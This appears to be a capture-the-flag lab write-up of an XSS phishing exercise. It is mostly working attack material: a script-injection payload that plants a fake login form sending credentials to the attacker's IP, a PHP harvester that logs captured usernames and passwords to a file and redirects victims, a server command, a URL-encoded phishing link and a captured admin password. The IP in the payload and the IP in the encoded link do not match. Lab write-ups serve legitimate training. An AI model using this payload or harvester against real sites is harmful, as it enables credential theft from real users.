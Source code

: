 URL created:
http://10.129.195.234/phishing/index.php?url=document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.193%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B
[Wed Mar 26 17:21:58 2025] 10.129.195.234:50374 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login

Explain the exercise:
Try to find a working XSS payload for the Image URL form found at '/phishing' in the above server, and then use what you learned in this section to prepare a malicious URL that injects a
malicious login form. Then visit '/phishing/send.php' to send the URL to the victim, and they will log into the malicious login form.
If you did everything correctly, you should receive the victim's login credentials, which you can use to login to '/phishing/login.php' and obtain the flag.

1. First we must to go the URL in http://.../phishing/send.php
We can see that we can XSS injection and we must to make a fake login in JS.
```js
'><script>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.193:4444/><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();</script><!--
```
After created the fake login we see the login page. And we must prepare the server to capture the traffic and see what happend.
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.195.234/phishing/login.php");
    fclose($file);
    exit();
}
?>
```
Create the sever and execute the commands for run it
```sh
sudo php index.php -S 0.0.0.0:80
PHP 8.4.5 Development Server (http://0.0.0.0:80) started
```
Now we paste the code again in the url to get the respond in the php server.
We must to change the url validate with decode url:
`http://10.129.195.234/phishing/index.php?url=document.write%28%27%3Ch3%3EPlease+login+to+continue%3C%2Fh3%3E%3Cform+action%3Dhttp%3A%2F%2F10.10.15.193%3E%3Cinput+type%3D%22username%22+name%3D%22username%22+placeholder%3D%22Username%22%3E%3Cinput+type%3D%22password%22+name%3D%22password%22+placeholder%3D%22Password%22%3E%3Cinput+type%3D%22submit%22+name%3D%22submit%22+value%3D%22Login%22%3E%3C%2Fform%3E%27%29%3B`
And see the server we get the credentials:
`10.129.195.234:50374 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login`
Login like admin and gg.
